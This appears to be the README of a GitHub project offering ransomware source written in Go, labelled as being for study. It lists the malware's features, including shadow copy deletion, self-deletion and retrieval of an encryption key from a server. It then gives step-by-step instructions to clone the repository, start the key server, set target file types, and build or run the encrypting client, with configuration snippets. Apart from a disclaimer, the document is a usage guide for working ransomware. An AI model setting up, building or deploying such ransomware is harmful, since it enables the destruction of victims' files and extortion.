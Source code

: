 # Ransomware-For-Study

[简体中文](./README-zh-cn.md)

Project Description:

This is a basic ransomware project framework for educational purposes, designed to:
- Provide insights for cybersecurity professionals combating malware
- Offer beginners in malware analysis a basic ransomware attack workflow

**WARNING:**
> 
    - This project is FOR EDUCATIONAL PURPOSES ONLY
    - STRICTLY PROHIBITED for any illegal use
    - The author bears no responsibility for misuse

---

## Key Features

1. Mutex creation to prevent multiple instances
2. ECC encryption with separate public/private key storage (only public key exposed during encryption)
3. Multi-threaded file encryption
4. Post-encryption notepad popup functionality
5. Self-deletion after encryption
6. HTTPS for public key transmission
7. Volume shadow copy deletion
8. Multiple encryption method implementations

---

**TODO (Pending Features):**

1. Multi-folder polling

## Installation

**Important:**
This project only works on Windows OS!

### 1. Download Project
```bash
git clone https://github.com/CuteCuteYu/RansomwareFS
```

### 2. Initialize Project
```bash
cd RansomwareFS
go mod tidy
```

### 3. Start Public Key Server

**Recommendation:** Replace the SSL certificates with ones from other sources before starting

Certificate location:
`ssl-cert` folder

```bash
go run ./server.go ./handler.go
```

### 4. Configuration

#### 4.1 File Extensions, Encryption Threads and Method
`./client/client.go`
```go
const (
	Method        string = "CUSTOM"
	FileExtension        = ".exe"
	ThreadNumber         = 10 // Number of threads to use for encryption
	FilePath      string = ""
)
```

#### 4.2 Server Address for Public Key Retrieval
`./client/ecc/ecc_get_pub_key/get_pub_key.go`
```go
const (
	ServerAddr = "localhost"
	ServerPort = "8080"
)
```

#### 4.3 Mutex Name Configuration
`./client/mutex/mutex.go`
```go
mutexName := "Global\\mypkg_mutex"
```

### 5. Run or Build Client

#### 5.1 Direct Run
```bash
go run ./cmd/client/main.go
```

#### 5.2 Build Executable

(run as Administrator can use delete_shadow!)

```bash
go build ./cmd/client/main.go
```

### 6. Custom Encryption Method Implementation

`./client/custom_example/custom_example.go` provides an example implementation

Required parameters:
```go
// Caesar cipher encryption
// Parameters:
//   - data: byte array to be encrypted
//   - shift: custom option for encryption method
// Returns:
//   - encrypted byte array
func CaesarEncrypt(data []byte, shift int) []byte {
	encrypted := make([]byte, len(data))
	for i, b := range data {
		encrypted[i] = byte((int(b) + shift) % 256)
	}
	return encrypted
}
```
